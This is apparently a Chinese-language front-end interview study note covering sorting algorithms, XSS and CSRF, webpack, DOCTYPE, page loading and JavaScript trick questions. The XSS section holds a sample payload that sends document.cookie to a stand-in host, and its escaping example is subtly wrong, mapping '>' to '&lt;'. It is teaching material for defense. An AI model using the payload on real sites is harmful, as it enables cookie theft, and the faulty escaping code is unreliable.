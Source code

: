 
#### 算法押题  
1. 排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
    1. 快速排序  http://segmentfault.com/a/1190000009426421
    2. 选择排序  http://segmentfault.com/a/1190000009366805
    3. 希尔排序  http://segmentfault.com/a/1190000009461832
    4. 冒泡排序
2. 二分查找法
3. 递归
    -  http://segmentfault.com/a/1190000009857470
4. 堆栈***，队列，链表
    - http://juejin.im/entry/58759e79128fe1006b48cdfd
   
    
#### 安全押题

1. 什么是 XSS 攻击？如何预防？
    - 跨域脚本攻击,cross-site scripting
    - 核心：向页面注入脚本(js)
    
    ```
    div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
// 恶意就被执行了，这就是 XSS
    ```
    - 预防
        - 不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
        - 如果你一样要用 innerHTML，字符过滤
            - 把 < 替换成 &lt;
            - 把 > 替换成 &gt;
            - 把 & 替换成 &amp;
            - 把 ’ 替换成 &#39;
            - 把 ’ 替换成 &quot;
            - 代码 div.innerHTML = userComment.replace(/>/g, ‘&lt;’).replace…
        - 使用 CSP Content Security Policy


2. 什么是 CSRF 攻击？如何预防？
    - 跨站请求伪造,Cross-site Request Forgery
    - 过程:
        - 用户在注册网站A登陆过，网站A给用户下发cookie
        - 该用户又访问了网站B，网站B有诱导链接，用户点击后，访问到了网站A，浏览器自动上传cookie，网站A对身份验证后发现是正确的，然后允许登录，网站B对网站A进行攻击
        - 关键：用户在注册网站A登陆过
        - 网站中某个接口存在漏洞
    - 防御措施
        - Referer验证：页面来源
        - Token验证：登录时，向用户本地存放一个Token，用于下次登录的验证

3. XSS和CSRF区别
    - XSS : 向页面注入js，运行js，做一些事情
    - CSRF: 
        - 依赖于用户登录网站
        - 利用本身的漏洞，去帮你自动执行接口


#### Webpack 题
1. 转译出的文件过大怎么办？
    - 使用 code split
    - 写法  import(‘xxx’).then(xxx=>{console.log(xxx)})
    - xxx 模块就是按需加载的

2. 转译速度慢什么办？
    - webpack 慢 怎么办，搜一下
3. 写过 webpack loader 吗？[参考](http://www.alloyteam.com/2016/01/webpack-loader-1/)

#### 发散题
1. 什么是DOCTYPE及作用
    1. DTD(document type definition,文档类型定义)是一系列语法规则，用来定义XML和HTML的文件类型，浏览器使用它来判断文档类型，决定使用何种协议解析，以及切换浏览器模式。
        - 一句话：DTD告诉浏览器我是什么文档类型，浏览器根据这个来判断我用什么引擎来解析它，渲染它
    2. DOCTYPE是用来声明文档类型和DTD规范的，一个主要用途就是文件合法性的验证，如果文件代码不合法，那么浏览器解析时就会出一些差错。
        - 直接告诉浏览器什么是DTD
    3. 常见的DOCTYPE有哪些
        - HTML5   <!DOCTYPE html>
        - 4.0版本
            - 严格模式：该DTD包含所有的HTML元素和属性，但不包含展示性和弃用的元素（比如font）
            - 宽松模式：该DTD包含所有的HTML元素和属性，包含展示性和弃用的元素（比如font）

2. 从输入 URL 到页面展现中间发生了什么？
    - DNS 查询 DNS 缓存
    - 建立 TCP 连接（三次握手）连接复用
    - 发送 HTTP 请求（请求的四部分）
    - 后台处理请求
        - 监听 80 端口
        - 路由
        - 渲染 HTML 模板
        - 生成响应
    - 发送 HTTP 响应
    - 关闭 TCP 连接（四次挥手）
    - 解析 HTML
    - 下载 CSS（缓存
    - 解析 CSS
    - 下载 JS（缓存
    - 解析 JS
    - 下载图片
    - 解析图片
    - 渲染 DOM 树
    - 渲染样式树
    - 执行 JS


4. 你遇到过最难的问题是什么？
    - [参考](https://www.zhihu.com/question/35323603/answer/338796153)
6. 任何你不会的问题
    - 承认不会
    - 询问详细细节：你问的是不是XXX方面的知识？请问你想问的是哪方面知识？
    - 根据面试官的回答，向有利于自己的方向引导话题。


#### 刁钻代码题
1. map加parseInt
    
    ```
    [1,2,3].map(parseInt)
    parseInt(1,0, array) // 1
    parseInt(2,1, array) // NaN
    parseInt(3,2, array) // NaN
    ```

2. a.x = a = {}
    
    ```
    var a = {n:1};
    var b = a;
    a.x = a = {n:2};
    
    问 a.x 是多少？ // undefined a.x是之前的a，现在的a.x不存在
    ```
3. (a == 1 && a== 2 && a==3) 可能为 true 吗？
    
    ```
    a = {
      value: 0,
      toString(){
        a.value += 1
        return a.value 
      }
    }
    ```

### 学习网站
1. stack Overflow
2. 掘金
3. 谷歌
4. CNode社区
5. 知乎

